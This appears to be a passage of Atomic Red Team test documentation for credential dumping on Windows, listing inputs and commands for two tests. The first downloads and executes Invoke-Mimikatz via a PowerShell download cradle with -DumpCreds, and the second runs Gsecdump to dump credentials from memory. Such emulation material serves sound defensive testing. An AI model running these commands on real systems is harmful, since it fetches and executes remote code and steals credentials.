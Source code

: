 **Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_script | URL to a remote Mimikatz script that dumps credentials | Url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```






<br/>
<br/>

## Atomic Test #2 - Gsecdump
Dump credentials from memory using Gsecdump

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| gsecdump_exe | Path to the Gsecdump executable | Path | PathToAtomicsFolder\T1003\bin\gsecdump.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
#{gsecdump_exe} -a
```



#### Dependencies:  Run with `powershell`!
##### Description: Windows Credential Editor must exist on disk at specified location (#{gsecdump_exe})
##### Check Prereq Commands:
```
if (Test-Path #{gsecdump_exe}) {0} else {1} 
```
##### Get Prereq Commands:
```
Write-Host Automated installer not implemented yet
```


